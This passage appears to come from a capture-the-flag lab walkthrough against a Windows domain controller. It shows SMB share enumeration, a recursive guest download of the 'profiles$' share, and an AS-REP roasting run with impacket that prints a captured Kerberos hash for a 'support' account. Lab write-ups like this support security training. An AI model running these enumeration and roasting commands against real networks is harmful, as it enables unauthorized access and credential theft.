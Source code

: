 ```
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share 
SPIDER_PLUS 10.10.10.192    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.10.192.json". ←
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Readable Shares:  2 (IPC$, profiles$)
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Total folders found:  314
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Total files found:    0
```

`cat /tmp/nxc_hosted/nxc_spider_plus/10.10.10.192.json`:
```json
{
    "profiles$": {} ←
}
```

`mkdir ./profiles_smbshare`

`smbclient -U 'guest' --password='' '//10.10.10.192/profiles$' -c 'prompt OFF;recurse ON;lcd /home/kali/profiles_smbshare;mget *'`:
```
```
❌

`impacket-GetNPUsers -dc-ip 10.10.10.192 'blackfield.local/guest' -no-pass -usersfile ./domain_users.txt`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:a3bd0c4e8d9627a7951c2351a78276a2$013e7203c1eeb5d2f4411830af8efba5f193cddc72ad51e9c623991e2af513ee3ac9e9c51bb82a73926db6cd9934baea501d709e6b6e5f5d4037f1b0f524257265cb5f756a74795f0c6e59c0ab5a16b2d5646b867b28999b8406296d22e99161c1f32cdf43c7952a6184d1a69d0e7301a83e59521a0c1ab1bab238bc161d3849fc4d632f33a2ce2277b512c31b431d6cc48e363c63294335d44595c131b6cb7b2c1da784630bf8a87117ea4a75dec43bab2792d8aa5934f1386bdd2de416bb38a8d48fa6f8333b962b403440471f087a36dbdc8d43e73aea2585ffe09cb27190c60656763d0c1b48fb81d0ef0767107e9c291917
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC02$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC03$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC04$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC05$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC06$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC07$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC08$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC09$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC10$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC11$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC12$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC13$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-WEB$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-FILE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-EXCHANGE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-INTRANET$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```